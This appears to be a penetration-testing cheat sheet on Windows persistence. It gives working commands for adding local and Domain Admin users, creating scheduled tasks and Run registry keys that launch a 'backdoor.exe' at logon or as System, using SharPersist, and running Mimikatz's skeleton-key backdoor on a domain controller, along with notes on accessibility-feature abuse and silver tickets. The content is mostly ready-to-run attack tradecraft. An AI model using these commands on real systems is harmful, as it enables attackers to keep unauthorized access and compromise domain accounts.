 # Windows

## Guides

3 good guides:

* [https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/)
* [https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/)
* [https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/)

## Add User

Commands:

`net user "username" "password" /ADD` 

`net group "Domain Admins" %username% /DOMAIN /ADD` 

Change user password 

`net user USERNAME *` 

Using Powershell:

`Add-LocalGroupMember -Group Administrators -Member hacker`

## Scheduled task

### SharpPresist

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Scheduled task: 

`Execute-assembly ~/Downloads/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly` 

Or 

`SharPersist -t schtask -c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe" -a "C:\Users\John\msbuild.csproj" -n "Test" -m add -o hourly` 

Delete a Scheduled task: 

`SharPersist -t schtask -n "Test" -m remove` 

### PowerShell 

```text
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe" 
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta" 
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta" 
PS C:\> $S = New-ScheduledTaskSettingsSet 
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S 
PS C:\> Register-ScheduledTask Backdoor -InputObject $D 
```

### Command Line 

`shell schtasks /create /tn Test /tr "c:\windows\system32\cmd.exe /c c:\Users\JOHN\Downloads\backdoor.exe" /sc onlogon /ru System` 

## Registry Key

### SharpPresist: 

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Registry Key: 

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add` 

Delete a Registry Key: 

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove` 

### Command Line 

`shell reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Test /t REG_SZ /d "C:\Windows\System32\cmd.exe"` 

Delete: 

`reg delete  Registry_key_path /v Registry_value_name` 

## Accessibility Features

The accessibility features provide additional options \(on screen keyboards, magnifier, screen reading etc.\) that could assist people with disabilities to use Windows operating systems easier. However, this functionality can be abused to achieve persistence on a host that RDP is enabled and Administrator level privileges have been obtained. This technique touches the disk, or modification of the registry is required to execute a stored remotely payload. 

[https://pentestlab.blog/2019/11/13/persistence-accessibility-features/](https://pentestlab.blog/2019/11/13/persistence-accessibility-features/)

## Silver Tickets

Computers change their account passwords every 30 days, but this is initialized by the client, not Active Directory. extract the host computer account hash, set a specific registry key, and you can regain access indefinitely. 

## Skeleton Key

The method injects itself into LSASS and creates a master password that will work for any account in the domain.

* The Skeleton Key only works for Kerberos RC4 encryption
* The Skeleton Key is a backdoor that runs on the Domain Controller \(in memory\) allows single password \(the skeleton password\) that can be used to log on to any account;

Run it on a DC using Mimikatz:

```text
privilege::debug
misc::skeleton
```

[https://pentestlab.blog/2018/04/10/skeleton-key/](https://pentestlab.blog/2018/04/10/skeleton-key/)

